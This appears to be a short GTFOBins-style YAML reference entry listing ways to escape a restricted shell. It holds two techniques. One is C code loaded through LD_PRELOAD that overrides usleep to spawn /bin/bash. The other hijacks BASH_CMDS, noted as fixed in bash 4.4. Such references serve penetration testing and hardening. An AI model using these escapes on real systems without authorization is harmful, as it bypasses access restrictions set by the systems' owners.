 ```yaml
---
functions:
  shell:
    - description: Search binaries with ``echo *``, get ``objdump -T binary | grep GLIC`` and make a script to replace one of the functions (example with usleep).
      code: |
        vim script.c
        #include <stdio.h>
        #include <stdlib.h>
        void usleep() {
          unsetenv("LD_PRELOAD");
          system("echo ok! && /bin/bash");
          exit(0);
        }
        gcc -shared script.c -o script
        declare -x LD_PRELOAD=/path/to/script
    - description: Note, this was fixed in bash 4.4
      code: |
        BASH_CMDS[gtfo]=/bin/bash; gtfo
---
```

